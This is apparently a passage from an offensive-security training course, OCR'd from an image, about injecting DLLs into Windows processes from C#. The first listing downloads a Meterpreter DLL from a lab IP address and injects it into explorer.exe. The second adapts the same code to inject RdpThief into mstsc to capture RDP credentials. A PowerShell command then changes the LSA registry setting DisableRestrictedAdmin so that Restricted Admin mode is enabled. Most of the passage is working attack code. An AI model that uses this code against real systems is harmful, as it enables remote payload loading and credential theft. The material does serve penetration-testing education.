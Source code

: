 ```
        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {

            String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
            String dllName = dir + "\\met.dll";

            WebClient wc = new WebClient();
            wc.DownloadFile("http://192.168.119.120/met.dll", dllName);

            Process[] expProc = Process.GetProcessesByName("explorer");
            int pid = expProc[0].Id;

            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;
            Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
            IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
        }
    }
}
```

> Listing 24 - DLL injection code

We'll obviously need to modify this code. First, we'll need a compiled version of the RdpThief DLL, which is located on the appsrv01 machine in the C:\Tools folder.

To make our proof of concept work, we'll update the code in Listing 24 to use the static path of the RdpThief DLL. In addition, we want to locate the "mstsc" process instead of "explorer", which gives us this updated code:

```
static void Main(string[] args)
{
  String dllName = "C:\\Tools\\RdpThief.dll";
  Process[] mstscProc = Process.GetProcessesByName("mstsc");
  int pid = mstscProc[0].Id;

  IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
  IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
  IntPtr outSize;
  Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
  IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
  IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
}
```


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit